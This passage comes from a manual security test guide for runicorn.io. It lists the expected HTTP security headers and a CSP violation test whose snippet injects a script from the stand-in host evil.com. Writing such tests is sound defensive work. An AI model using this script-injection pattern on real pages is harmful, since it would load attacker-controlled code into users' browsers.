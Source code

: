 1. **Open Browser** (Chrome, Firefox, or Edge)
2. **Navigate** to https://runicorn.io
3. **Open DevTools** (F12 or Right-click → Inspect)
4. **Go to Network tab**
5. **Reload page** (Ctrl+R / Cmd+R)
6. **Click on first request** (should be document type, e.g., `runicorn.io`)
7. **Scroll to Response Headers section**

### Expected Headers:

```
Response Headers:
├── content-security-policy: default-src 'self'; script-src 'self' 'unsafe-inline' https://analytics.rnltlabs.de https://errors.rnltlabs.de https://unpkg.com; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://unpkg.com; font-src 'self' https://fonts.gstatic.com; img-src 'self' data: https://*.tile.openstreetmap.org; connect-src 'self' https://runicorn-api-proxy.*.workers.dev https://analytics.rnltlabs.de https://errors.rnltlabs.de https://nominatim.openstreetmap.org; frame-ancestors 'none'; base-uri 'self'; form-action 'self'; upgrade-insecure-requests;
├── x-frame-options: DENY
├── x-content-type-options: nosniff
├── x-xss-protection: 1; mode=block
├── referrer-policy: strict-origin-when-cross-origin
└── permissions-policy: camera=(), microphone=(), geolocation=(self), payment=(), usb=(), interest-cohort=()
```

---

## Test 3: CSP Violation Testing

### Test 3.1: Block Unauthorized Script

**Purpose**: Verify CSP blocks malicious scripts

1. Open https://runicorn.io
2. Open Browser Console (F12 → Console tab)
3. Paste and execute:

```javascript
const script = document.createElement('script')
script.src = 'https://evil.com/malicious.js'
document.head.appendChild(script)
```

4. **Expected Result**: CSP Error in console

```
Refused to load the script 'https://evil.com/malicious.js' because it violates the following Content Security Policy directive: "script-src 'self' 'unsafe-inline' https://analytics.rnltlabs.de https://errors.rnltlabs.de https://unpkg.com".
```

### Test 3.2: Allow Authorized Script (Umami)
